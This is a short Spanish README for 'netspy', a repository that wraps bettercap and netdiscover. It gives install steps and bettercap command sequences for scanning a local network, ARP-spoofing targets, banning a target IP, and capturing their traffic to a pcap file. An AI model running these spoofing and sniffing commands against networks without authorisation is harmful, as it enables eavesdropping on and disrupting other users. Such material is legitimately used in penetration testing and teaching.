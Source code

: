 <img width="800" height="600 style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/netspy/blob/master/netspy.png">

# netspy

# 1.- Descubre elementos de red 2.- Captura y muestra en pantalla el trafico.

# Instalacion:

apt-get install bettercap

apt-get install netdiscover

git clone https://github.com/hackingyseguridad/netspy

cd netspy

chmod 777 netspy

# Uso.:

sh netspy

# Bettercap v2.9

Escanear toda la Red:
net.probe on; ticker on

Banear tarjet IP con ARP:
set arp.spoof.targets IP; arp.spoof on; set arp.ban on; net.probe on

Capturar trafico en fichero siff_all.pcap:
net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.output /tmp/sniff_all.pcap; set net.sniff.verbose false; net.sniff on

Ver Trafico:
net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on

www.hackingyseguridad.com
